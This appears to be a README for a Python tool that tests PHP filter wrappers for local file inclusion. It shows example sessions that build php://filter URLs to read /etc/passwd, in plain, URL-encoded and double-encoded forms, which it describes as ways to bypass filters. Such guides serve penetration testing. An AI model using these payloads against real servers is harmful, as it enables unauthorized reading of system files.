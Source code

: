 PHP Filter Testing Program Guide

## Overview

This Python program tests PHP filter wrappers to read local files on a web server. It allows you to select different filters, encoding types, and files to test.

## Installation

Install required packages:

```
pip install requests colorama
```

## Usage

Run program:

```
python PHP_Filter_Test.py
```

You will be prompted to enter:

- Target URL 
- File to read
- Filter type
- Specific filter
- URL encoding type

The program makes a request using your selections and prints the response.

## Examples

**Read /etc/passwd with normal base64 filter**

```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd  

Select filter type: 1 (Normal)

Select filter to test: 4 (convert.base64-decode) 

Select URL encoding type: 1 (Normal)

Testing: http://example.com/php://filter/convert.base64-decode/resource=/etc/passwd
```

This tests the base64-decode filter on the /etc/passwd file without any URL encoding.

**Read /etc/passwd with encoded base64 filter**


```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd

Select filter type: 2 (Encoded)

Select filter to test: 6 (convert.base64-encode|convert.base64-decode)

Select URL encoding type: 2 (Encoded) 

Testing: http://example.com/php%3a%2f%2ffilter%2fconvert%2ebase64-encode%7cconvert%2ebase64-decode%2fresource%3d%2fetc%2fpasswd
```

This tests the base64 filter with URL encoding to bypass filters.

**Read /etc/passwd with double encoded zlib filter**

```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd  

Select filter type: 3 (Double Encoded)

Select filter to test: 9 (zlib.deflate/convert.base64-encode)

Select URL encoding type: 3 (Double Encoded)

Testing: http://example.com/php%253A%252F%252Ffilter%252Fzlib%252Edeflate%252Fconvert%252Ebase64-encode%252Fresource%253D%252Fetc%252Fpasswd
```

This shows how to double encode the filter and URL to bypass restrictions.

This demonstrates how you can test different filter wrappers to identify file read vulnerabilities.

